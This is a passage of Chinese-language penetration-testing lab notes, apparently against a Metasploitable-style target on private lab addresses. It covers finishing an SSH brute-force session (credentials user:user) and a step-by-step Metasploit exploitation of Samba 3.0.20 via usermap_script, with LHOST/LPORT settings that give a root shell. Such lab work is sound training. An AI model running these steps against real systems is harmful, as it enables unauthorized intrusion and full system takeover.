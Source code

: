         - exploit
            - 一有成功output就 ctrl+c 退出
            - 需要幾分鐘
            - ![image](https://hackmd.io/_uploads/BJAFMWpfyg.png)
                - user:user
        - sessions -i <session_id>
            - 當配對成功的時候，攻擊腳本會自動建立一個 SSH 連線會話
            - 使用這個指令 terminal 切換到 session 中
            - ex: sessions -i 1
    - ssh root@192.168.60.101
        - 也可以直接 ssh 連接

- Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    - sudo nmap -sV 192.168.75.131
        - 觀察掃描結果，注意port 139 和 445 上的 Samba 服務
        - Nmap 未能提供精確的 Samba 版本資訊
            - ![image](https://hackmd.io/_uploads/rJ1GezaG1l.png)
    - sudo msfconsole
        - 先識別 Samba 版本
        - 打開 Metasploit 控制台
        - search samba
            - 搜尋 Metasploit 框架中的輔助模組來探測 Samba 版本
        - use auxiliary/scanner/smb/smb_version
            - 使用 Samba 版本探測器
        - show options
            - 確認參數配置
        - set RHOSTS 192.168.75.131
            - 設置目標機 ip
        - run
            - 成功顯示目標機器上運行的確切 Samba 版本 Samba 3.0.20-Debian
            - ![image](https://hackmd.io/_uploads/SJfLGGaGkl.png)
        - searchsploit samba 3.0.20
            - 接著尋找適用的漏洞
            - ![image](https://hackmd.io/_uploads/r1_0zzpMye.png)
            - 結果顯示適用於我們目標版本的幾個漏洞，其中 `usermap script` 漏洞是我們感興趣的
        - search samba
            - 在 Metasploit 中搜尋該漏洞模組
        - use exploit/multi/samba/usermap_script
            - 在 Metasploit 中使用該漏洞模組
        - show options
            - 確認參數配置
        - set RHOSTS 192.168.75.131
            - 設置目標機 ip
        - set LHOST 192.168.75.130
            - 設定遠端主機 IP
            - set LHOST <your_kali_ip>
        - set LPORT 4444
            - 設定遠端主機 port
        - exploit
            - 執行漏洞利用
            - 獲得目標系統上的命令行 shell
                - ![image](https://hackmd.io/_uploads/ry33NMTf1l.png)
            - whoami
                - 成功訪問目標系統，並以 root 身份運行命令
